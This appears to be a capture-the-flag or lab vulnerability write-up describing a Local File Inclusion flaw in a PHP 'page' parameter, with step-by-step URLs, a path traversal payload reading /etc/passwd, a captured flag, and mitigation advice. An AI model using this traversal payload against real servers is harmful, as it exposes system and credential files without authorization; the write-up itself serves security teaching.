

# Local File Inclusion

## Issue

The 'page' parameter at "http://{IP}:{PORT}/index.php?page=" does not sanitize the query value allowing an attacker to request \
the server load files or pages outside of permitted directories. This can result in a Local File Inclusion (LFI) vulnerability, \
which could allow an attacker to access sensitive files on the server, such as configuration files, password files, or \
other important files that should not be accessible.

## Attack Vector

1 - Navigate to http://{IP}:{PORT}/index.php?page=signin

2 - Change 'signin' to '../../../../../../../etc/passwd'

3 - Full URL is  http://{IP}:{PORT}/index.php?page=../../../../../../../etc/passwd

4 - Flag revealed is `b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

## PoC

## Mitigation

1 - Sanitize query string input and escape non-permitted characters

2 - Identify path traversal attempts and implement backend validation to whitelist specific files and directories

3 - Disable PHP inclusion if necessary

